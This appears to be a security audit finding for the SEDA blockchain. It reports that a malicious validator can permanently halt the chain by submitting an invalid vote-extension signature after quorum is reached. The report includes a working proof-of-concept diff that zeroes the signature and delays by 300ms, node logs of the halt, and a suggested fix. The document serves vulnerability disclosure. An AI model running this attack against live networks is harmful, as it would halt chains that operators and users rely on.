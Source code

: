 Bent Seaweed Mallard

High

# A malicious validator can halt the chain by proposing bad signature in `ExtendVoteHandler()`

### Summary

`VerifyVoteExtensionHandler()` is called on every validator to validate each proposed vote. However, CometBFT does not invoke this function for vote extensions received after the quorum has been achieved.

At this moment, a malicious validator can propose a bad signature as a vote extension in the `ExtendVoteHandler()`.

As a result, the bad vote can bypass the vote extension verification, triggering an error in the `ProcessProposalHandler()` of the subsequent block, which ultimately leads to a permanent halt of the chain.

### Root Cause

In the [`ExtendVoteHandler()`](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-chain/app/abci/handlers.go#L75-L133), a validator generates and proposes a signature of the batch ID as the vote extension for an existing batch.

```solidity
func (h *Handlers) ExtendVoteHandler() sdk.ExtendVoteHandler {
	return func(ctx sdk.Context, _ *abcitypes.RequestExtendVote) (*abcitypes.ResponseExtendVote, error) {
		... ...

		// Sign and reload the signer if the public key has changed.
		signature, err := h.signer.Sign(batch.BatchId, utils.SEDAKeyIndexSecp256k1)
		if err != nil {
			return nil, err
		}
		err = h.signer.ReloadIfMismatch(valKeys.IndexedPubKeys)
		if err != nil {
			return nil, err
		}

		h.logger.Debug(
			"submitting batch signature",
			"signature", signature,
			"batch_number", batch.BatchNumber,
		)
		return &abcitypes.ResponseExtendVote{VoteExtension: signature}, nil
	}
}
```

After then, the [`VerifyVoteExtensionHandler()`](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-chain/app/abci/handlers.go#L138-L173) is executed on every validator to verify the proposed vote extension.

```solidity
func (h *Handlers) VerifyVoteExtensionHandler() sdk.VerifyVoteExtensionHandler {
	return func(ctx sdk.Context, req *abcitypes.RequestVerifyVoteExtension) (*abcitypes.ResponseVerifyVoteExtension, error) {
		... ...
		err = h.verifyBatchSignatures(ctx, batch.BatchNumber, batch.BatchId, req.VoteExtension, req.ValidatorAddress)
		if err != nil {
			h.logger.Error("failed to verify batch signature", "req", req, "err", err)
			return nil, err
		}
		...
	}
}
```

However, after the quorum has been met, the CometBFT never calls this function, meaning that any additional vote extensions can be included in the commit info without any verification.

Let's assume there is a bad vote extension in the pre-commit votes. The [`ProcessProposalHandler()`](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-chain/app/abci/handlers.go#L235-L275) verifies all vote extensions included in the previous block and raises an error if any of them is found to be invalid.

```solidity
func (h *Handlers) ProcessProposalHandler() sdk.ProcessProposalHandler {
	return func(ctx sdk.Context, req *abcitypes.RequestProcessProposal) (*abcitypes.ResponseProcessProposal, error) {
		... ...
		for _, vote := range extendedVotes.Votes {
			// Only consider extensions with pre-commit votes.
			if vote.BlockIdFlag == cmttypes.BlockIDFlagCommit {
@>				err = h.verifyBatchSignatures(ctx, batch.BatchNumber, batch.BatchId, vote.VoteExtension, vote.Validator.Address)
@>				if err != nil {
					h.logger.Error("proposal contains an invalid vote extension", "vote", vote)
					return nil, err
				}
			}
		}

		req.Txs = req.Txs[1:]
		return h.defaultProcessProposal(ctx, req)
	}
}
```

### Internal pre-conditions

- The current block height should be greater than `vote_extensions_enable_height`.

### External pre-conditions

*None*

### Attack Path

There are 2 ways to attack.

After sleeping a moment(like `300ms`) to wait till the quorum is achieved:
- A malicous validator propose a bad signature as a vote extension in the `ExtendVoteHandler()`
- Or, set bytes array as a vote extension that is greater than `MaxVoteExtensionLength` in length

### Impact

Since, the `ProcessProposalHandler()` cannot process new blocks anymore due to invalid pre-committed votes, the chain will be permanently halted.

### PoC

For test purpose, I updated the `ConstructDataResultTree()` function in the `x/batching` as following, to provide mock data result in order to simulate the oracle data fetching.

```diff
func (k Keeper) ConstructDataResultTree(ctx sdk.Context, newBatchNum uint64) (types.DataResultTreeEntries, []byte, error) {
-	dataResults, err := k.GetDataResults(ctx, false)
-	if err != nil {
-		return types.DataResultTreeEntries{}, nil, err
-	}

+   // @audit Make mock data result
+	resultBytes := make([]byte, 4)
+	binary.BigEndian.PutUint32(resultBytes, uint32(ctx.BlockHeader().Height))
+	dataResults := make([]types.DataResult, 1)
+	dataResults[0] = types.DataResult{
+		DrId:           "0x01",
+		Version:        "0.0.1",
+		BlockHeight:    uint64(ctx.BlockHeader().Height),
+		ExitCode:       0,
+		GasUsed:        nil,
+		Result:         resultBytes,
+		PaybackAddress: "0x00",
+		SedaPayload:    "0x00",
+		Consensus:      true,
+	}
	...
}
```

I selected `validator3` as an attacker and added the following lines:

```diff
func (h *Handlers) ExtendVoteHandler() sdk.ExtendVoteHandler {
	return func(ctx sdk.Context, _ *abcitypes.RequestExtendVote) (*abcitypes.ResponseExtendVote, error) {
		h.logger.Debug("start extend vote handler", "height", ctx.BlockHeight())
        ...
        // Sign and reload the signer if the public key has changed.
		signature, err := h.signer.Sign(batch.BatchId, utils.SEDAKeyIndexSecp256k1)
+		validator, _ := h.stakingKeeper.GetValidator(ctx, h.signer.GetValAddress())
+		if validator.GetMoniker() == "validator3" && ctx.BlockHeight() > 10 {
+			h.logger.Info(
+				"Entering invalid signature...",
+				"signature", signature,
+			)
+			signature = make([]byte, 65)
+			time.Sleep(300 * time.Millisecond) // @audit Wait until the quorum gets full
+		}
		if err != nil {
			return nil, err
		}
		err = h.signer.ReloadIfMismatch(valKeys.IndexedPubKeys)
		if err != nil {
			return nil, err
		}
        ...
    }
}
```

After running the `./scripts/local_multi_setup.sh`, the attack was performed at the `block 28.`

Logs Output of `Validator3`:
```json
{"level":"info","module":"server","signature":"\ufffd͋\u0010Te\ufffd\ufffdȓY6\ufffd\ufffd歃\ufffd\u0018\u001eL\ufffd\ufffd\u007f\ufffd\ufffd\ufffd\ufffd\u000b\ufffd\ufffd\ufffdIS\ufffdaZ5\ufffd\ufffd\u0017\u0003\ufffdo\ufffd\u0002\u0000\ufffd<\ufffd\ufffdjk\u0015\ufffdl=\ufffd\ufffd\ufffd\ufffdǞ5\u0001","time":"2025-03-04T19:08:21-05:00","message":"Entering invalid signature..."}
{"level":"debug","module":"server","signature":"\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000","batch_number":2,"time":"2025-03-04T19:08:21-05:00","message":"submitting batch signature"}
{"level":"debug","module":"server","module":"consensus","height":28,"round":0,"vote":"Vote{0:16BCAD6870D7 28/00/SIGNED_MSG_TYPE_PRECOMMIT(Precommit) BB742A5BA399 A83CA1C04521 000000000000 @ 2025-03-05T00:08:21.6317117Z}","time":"2025-03-04T19:08:21-05:00","message":"signed and pushed vote"}
... ...
{"level":"error","module":"server","vote":{"validator":{"address":"FrytaHDXnmmSRezRnc39qmuk3Mg=","power":10},"vote_extension":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA=","extension_signature":"kwOUJA2kpWcnXDc5VRzudYsO8Lm3fjulF8i3AraZOJJh48+v3Ofy5s6vSIRBn49CBo3WXLvpuoJO6iHY9JO6Dw==","block_id_flag":2},"time":"2025-03-04T19:08:29-05:00","message":"proposal contains an invalid vote extension"}
... ...
{"level":"debug","module":"server","module":"p2p","channel":32,"time":"2025-03-04T19:15:32-05:00","message":"Broadcast"}
{"level":"debug","module":"server","module":"consensus","height":29,"round":38,"validator":"50E0078D658B40617551724148A102A291DE9335","vote_timestamp":"2025-03-05T00:15:32Z","data":"Votes:35/35(1.000)","time":"2025-03-04T19:15:32-05:00","message":"added vote to precommit"}
{"level":"debug","module":"server","module":"consensus","height":29,"round":38,"current":"29/38/RoundStepPrecommit","time":"2025-03-04T19:15:32-05:00","message":"entering new round with invalid args"}
{"level":"debug","module":"server","module":"consensus","height":29,"round":38,"current":"29/38/RoundStepPrecommit","time":"2025-03-04T19:15:32-05:00","message":"entering precommit step with invalid args"}
{"level":"debug","module":"server","module":"consensus","height":29,"round":38,"triggered_timeout":true,"current":"29/38","time":"2025-03-04T19:15:32-05:00","message":"entering precommit wait step with invalid args"}
...
```

The chain became stuck in the `block 29` and didn't generate blocks anymore.

(Full logs of four validators are available in this [gist](https://gist.github.com/royalsalute/bd6f8ffeb1d41860dc6a077d07a56789).)

### Mitigation

The `verifyBatchSignatures()` function should be called in the `PrepareProposalHandler()` to filter out the bad pre-committed votes.

